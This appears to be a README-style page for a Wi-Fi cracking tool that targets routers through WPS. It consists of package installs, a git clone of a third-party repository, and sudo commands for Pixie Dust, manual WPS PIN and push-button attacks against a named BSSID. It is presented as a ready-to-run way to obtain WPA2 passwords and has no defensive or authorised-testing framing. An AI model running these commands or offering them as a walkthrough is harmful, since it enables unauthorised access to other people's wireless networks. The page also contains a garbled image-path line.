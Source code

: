 # Wi-Fi WPA2 PassWord HACK ONLY ROUTER

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw openssl

# download only root user

apt-get install build-essential

apt-get install libpcap-dev

apt-get install sqlite3

apt-get install libsqlite3-dev

apt-get install pixiewps

# installing Tool ComMand

pkg install git

pkg install python3


git clone https://github.com/HeartHaNterAlex/wifi


# only one command run


sudo python wifi/ps.py -i wlan1 -K
# kali command 
sudo python wifi/kali-ps.py -i wlan1 -K

# select Host number press inter attack 

# manual pin attack 🧷

sudo python3 wifi/ps.py -i wlan0 -b d9:90:4C:C9:D0:A7 -B -p 1234
# 80% Wi-Fi hack
sudo python3 wifi/ps.py -i wlan0 --pbc
# help command
sudo python wifi/ps.py -i wlan1 -K -h
